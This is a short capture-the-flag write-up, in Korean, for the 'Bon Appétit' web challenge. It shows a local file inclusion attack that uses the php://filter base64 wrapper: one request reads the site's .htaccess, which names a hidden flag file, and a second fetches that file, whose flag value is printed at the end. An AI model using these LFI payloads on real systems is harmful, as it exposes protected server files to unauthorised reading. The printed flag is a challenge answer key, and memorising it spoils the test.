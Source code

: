 ## Bon Appétit (100)

> We are creating a new web-site for our restaurant. Can you check if it is secure enough?


먼저 `LFI` 공격로 `.htaccess`를 가져온다.

`http://bonappetit.stillhackinganyway.nl/?page=php://filter/convert.base64-encode/resource=.htaccess`

### .htaccess
```
<FilesMatch "\.(htaccess|htpasswd|sqlite|db)$">
 Order Allow,Deny
 Deny from all
</FilesMatch>

<FilesMatch "\.phps$">
 Order Allow,Deny
 Allow from all
</FilesMatch>

<FilesMatch "suP3r_S3kr1t_Fl4G">
  Order Allow,Deny
  Deny from all
</FilesMatch>


# disable directory browsing
Options -Indexes
```

이제는 `suP3r_S3kr1t_Fl4G`를 가져온다.

`http://bonappetit.stillhackinganyway.nl/?page=php://filter/convert.base64-encode/resource=suP3r_S3kr1t_Fl4G`


### flag{82d8173445ea865974fc0569c5c7cf7f}
